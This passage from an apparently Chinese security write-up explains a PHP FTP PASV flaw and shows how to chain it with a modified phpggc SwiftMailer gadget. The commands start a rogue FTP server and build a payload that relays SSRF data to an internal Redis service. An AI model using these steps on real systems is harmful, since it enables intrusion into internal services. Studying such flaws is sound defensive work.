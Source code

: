 可以发现, 虽然在注释里面写了 `skip over the host ip, to get the port`, 但实际上还是没有 skip, 会将 PASV 给出的 ip 最后用于数据通道的连接, 导致漏洞产生.
同时 php 还是用 `portno += (unsigned short) strtoul(tpath, &ttpath, 10);` 来获取的端口, 这也解释了为什么 (127,0,0,1,0,9000) 和 (127,0,0,1,35,40) 是一样的, 因为 php 底层并没有把他转换成 unsigned char 后再相加的 233

## Real World

因为需要完整控制 filename 的关系, 这个漏洞在真实情况下比较不常见, 我觉得这个漏洞利用在反序列化上可能会更加好, 比如 phpggc 上存在的一个链 `SwiftMailer/FW1`, 我们将 `gadgetchains/SwiftMailer/FW/1/gadgets.php` 中的 `private $_mode = 'w+b';` 改成 `private $_mode = 'w';`, 这样使得 fopen 兼容 ftp 协议, 使得反序列化链正常进行.

然后利用的方式其实与 rouge_mysql_server 类似, 需要客户端连接我们的恶意服务器, 比如我们需要攻击 redis 服务, 首先在服务器上运行 `python3 server.py 19132 127.0.0.1 6379`, 再使用 `./phpggc SwiftMailer/FW1 "ftp://rouge_ftp_server:19132/asd" ssrf_payload_file` 来生成我们的序列化 payload, 在反序列化漏洞被触发后 ssrf_payload_file 中的内容就会被发往 127.0.0.1:6379.

这样就能扩展部分反序列化利用的方式, 比如在不知道 WEB 目录, 或者 WEB 目录不可写的情况下, 可以尝试 ssrf 一些 redis 服务, 扩大我们的攻击面.

## 参考

1. https://zh.wikipedia.org/wiki/%E6%96%87%E4%BB%B6%E4%BC%A0%E8%BE%93%E5%8D%8F%E8%AE%AE
2. https://github.com/ambionics/phpggc
3. https://github.com/php/php-src
